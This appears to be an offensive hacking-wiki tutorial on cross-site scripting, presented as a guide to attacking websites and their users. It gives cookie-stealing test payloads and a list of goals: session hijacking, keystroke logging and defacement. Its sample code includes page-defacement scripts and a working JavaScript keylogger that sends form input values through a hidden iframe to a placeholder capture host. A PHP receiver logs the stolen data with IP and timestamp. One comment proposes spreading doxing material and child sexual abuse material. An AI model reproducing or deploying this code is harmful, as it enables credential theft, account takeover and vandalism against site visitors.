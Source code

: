 Cross site scripting (or XSS) is a method of exploiting a website that does not validate user supplied input or sanitize output. Web servers that fail to do so will allow you to run arbitrary javascript on an end users browser.

## Entrypoints ##

XSS entrypoints are usually found in webforms & querystrings. You can test for the existence of xss by using the following string.

`<script>alert(document.cookie);</script>`

You also may be able to include javascript embedded in a flash object, or an image like so:
```<img src="javascript:alert(document,cookie);" />```

But this varies between browsers.
Another way is like this
```<a href="javascript:alert(document.cookie);">link</a>```

But this requires your target to click a link

## Things To Do ##


1. Hijack user sessions/cookies

  * Since user session ID and occasionally usernames/passwords are stored in cookies, you can steal cookie data to impersonate a user by either finding their uname/pass or using their server session ID.
1. Log Keystrokes

  * You can write some code in javascript to send data via ajax/iframes when a user presses a key.
1. Deface pages

  * If the xss exploit you've discovered is saved into a database and redisplayed to other users, you can deface the page by overlaying content.
Remember to always read up on the latest security news. Not long ago, someone figured how to perform an XSS attack _from a motherfucking IP phone_. How? Simple. When you start an IP phone call, your phone or software sends a caller ID. Most IP phone exchange servers log these caller IDs and let you display the call log on a web browser. The caller ID field on most IP telephony protocols (such as H.323 and SIP) is sent as text and saved into a database without validation, because people only send phone numbers on the caller ID field amirite? Well... someone wrote an IP phone program that could send Javascript code on the caller ID field, so that when the admin displayed the phone call log, the browser would run the Javascript! Once you can run Javascript on a browser, you have a platform from which you can launch all the attacks mentioned here and more.

## Sample Code ##

```//---Javascript
//Overlay a black background with LOL in big white text
html='<div style="position:absolute;top:0px;left:0px;z-index:99;width:100%;height:100%;background-color:black;"><h1 style="color:#fff;">LOLHAI</h1></div>';
document.write(html);```

```//---Javascript
//Change the content of <body>
html='<h1>LOLHAI</h1>';
window.document.body.innerHTML=html;```

```//---Javascript
//You can study the structure of a site and change the content for any element ID or tag name
html='<h1>LOLHAI</h1>';
document.getElementById('element_id').innerHTML = html;
document.getElementsByTagName('element_tag')[child].innerHTML = html;
//This is epic for trolling by inserting typos, disinformation, dox, gore, cp, etc```

```//---Javascript
//This is an example of a keylogger. There is also a php file on this article you can use to capture the data.
randVal = 'loldongs'+(Math.round((10000-5000) * Math.random() + 5000));
wp='<div style=":display:block;width:0;height:0;z-index:0;overflow:hidden;" id="'+randVal+'"></div>';
window.onload=function(){
        window.document.body.innerHTML='<div onkeyup="kl();">'+window.document.body.innerHTML+wp+'</div>';
}
function kl(){
        inp=document.getElementsByTagName('input');
        qs='';
        for(var i = 0; i < inp.length; i++){
                qs=qs+i+'_'+inp[i].name+'='+inp[i].value+'&';
        }
        cn=document.getElementById(randVal);
        kf='<iframe style="width:0;height:0;" src="http://CAPTUREHOST/capture.php?'+qs+'"></iframe>';
        cn.innerHTML=kf;
}```

```//---capture.php
//This will catch all data passed as querystrings and save them in a readable format with IP, referrer & timestamp 
<?php
        $dumpFile = "dump";
        $fh = fopen($dumpFile, 'a') or die("can't open file");
        fwrite($fh, date("m/d/y_g:i:s").'|'.$_SERVER['REMOTE_ADDR'].'|'.$_SERVER['HTTP_REFERER'].'|');
        foreach($_GET as $qs => $val){
                fwrite($fh, $qs."=".$val.'|');
        }
        fwrite($fh, "\n");
        fclose($fh);
?>```

{{tutorials}}

